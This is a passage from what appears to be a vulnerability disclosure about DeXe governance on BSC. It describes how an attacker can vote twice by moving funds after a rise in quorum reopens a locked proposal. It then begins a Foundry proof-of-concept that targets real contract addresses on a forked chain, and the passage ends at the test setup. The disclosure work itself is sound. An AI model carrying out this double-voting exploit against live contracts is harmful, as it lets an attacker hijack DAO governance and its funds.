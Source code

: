 At this point, the total supply of DEXE tokens on BSC increases, causing the required quorum to increase as well.

Consequently, the state of the malicious proposal changes from Locked to Voting.

The attacker then quickly transfers his funds to another address and votes again using that address.

This way, the attacker can exercise voting power twice with their funds and pass the proposal with a voting power less than half of the required quorum.

The proposal can be executed 30 minutes later.

POC:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../../src/PoC.sol";
import "./interfaces/IGovPool.sol";

interface IGovUserKeeper {
    function depositTokens(
        address payer,
        address receiver,
        uint256 amount
    ) external;

    function tokenBalance(
        address voter,
        IGovPool.VoteType voteType
    ) external view returns (uint256 balance, uint256 ownedBalance);

    function maxLockedAmount(address voter) external view returns (uint256);
}

interface Ownable {
    function owner() external view returns(address);
}

interface IDeXe is IERC20, Ownable {
    function treasury() external view returns(address);
    function burn(address account, uint256 amount) external;
    function mint(address to, uint256 amount) external;
}

contract BaseTest is PoC {
    IGovPool private govPool = IGovPool(0xB562127efDC97B417B3116efF2C23A29857C0F0B);
    IDeXe private dexeToken = IDeXe(0x6E88056E8376Ae7709496Ba64d37fa2f8015ce3e);
    IGovUserKeeper private userKeeper = IGovUserKeeper(0xbE8cB128fBCf13f7F7A362c3820f376b0971B7B2);
    address private attacker;
    address private attackerTmp;
    address private userA;

    uint256 constant ONE_TOKEN = 10 ** 18;
    uint256 private minVotesForCreating = 10_000 * ONE_TOKEN;

    function setUp() virtual public {
        vm.createSelectFork("bsc", 39293147);
        attacker = vm.createWallet("attacker").addr;
        userA = vm.createWallet("userA").addr;
        attackerTmp = vm.createWallet("attackerTmp").addr;

        deal(attacker, 10 ether);
```